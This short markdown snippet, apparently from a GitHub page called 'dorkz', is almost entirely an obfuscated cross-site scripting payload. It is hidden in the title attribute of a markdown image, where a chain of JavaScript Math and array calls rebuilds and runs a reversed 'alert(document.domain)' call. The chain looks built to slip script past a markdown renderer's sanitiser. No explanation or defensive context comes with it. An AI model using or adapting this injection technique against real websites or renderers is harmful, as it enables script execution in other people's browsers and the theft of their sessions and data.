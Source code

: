 # https://ph-apolonio.github.io/dorkz

this is an ![alt text](https://xssss.com/ "Math.LN2.valueOf,Math.seeds.splice,Math.E.valueOf,Math.sin.name.at,Math.seeds.unshift,Math.LOG2E.valueOf,Math.cos.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.imul.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.trunc.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.asin.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.cos.name.at,Math.seeds.unshift,Math.LOG2E.valueOf,Math.cos.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.log.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.clz32,Math.sin.name.constructor.fromCharCode,Math.seeds.unshift,Math.E.valueOf,Math.sin.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.round.name.at,Math.seeds.unshift,Math.E.valueOf,Math.trunc.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.trunc.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.exp.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.round.name.at,Math.seeds.unshift,Math.seeds.at,Math.seeds.constructor,Math.seeds.join,Math.sin.constructor,Math.seeds.map,Math.seeds.pop.apply,Math.sin.name.constructor,Math.seeds.constructor.from,Math.seeds.reverse.call,Math.seeds.join.bind,Math.seeds.push,Math.seeds.at,Math.seeds.constructor,Math.seeds.unshift,Math.seeds.pop,Math.seeds.map,Math.seeds.shift.call,Math.seeds.unshift,Math.seeds.at,Math.seeds.constructor,Math.seeds.join,Math.sin.constructor,Math.seeds.map#//)niamod.tnemucod(trela")



